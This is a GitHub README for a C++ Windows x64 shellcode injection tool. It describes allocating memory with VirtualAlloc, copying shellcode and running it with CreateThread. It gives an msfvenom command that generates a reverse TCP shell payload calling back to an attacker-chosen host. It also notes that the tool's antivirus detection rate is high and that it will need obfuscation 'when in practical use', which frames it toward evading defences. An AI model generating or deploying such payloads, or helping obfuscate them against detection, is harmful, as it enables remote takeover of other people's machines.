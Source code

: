 # Shellcode Injection - Windows x64

Demonstrating basic shell code injection using Windows API and C++. 

## 💻 Features
- Manual shellcode allocation and execution
- Uses VirtualAlloc, RtlCopyMemory, CreateThread
- Tested on Windows 10 x64

## ⚙️ Shellcode
Shellcode generated using `msfvenom`:

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP LPORT=PORT -f c
````

## ⚙️ Compilation
Can be compiled using the simple compilation command :

````bash
g++ inject_code.cpp -o shell_code.exe
````

## 🧠 How it Works
1. Allocate memory with `VirtualAlloc`
2. Copy shellcode to allocated region
3. Run with `CreateThread`

## 📁 File Structure

* `main.cpp` — injection code
* `shellcode.h` — contains unsigned char shellcode array

## 🖼️ Screenshots

  ![Injection Demo](screenshot/analysis.png)

  We could see that the detection rate is still high and needs more appropriate procedure to obfuscate it.

## 📝 Note :

* This is just a basic shell code injection for demonstration purposes and will need appropriate obfuscation when in practical use.
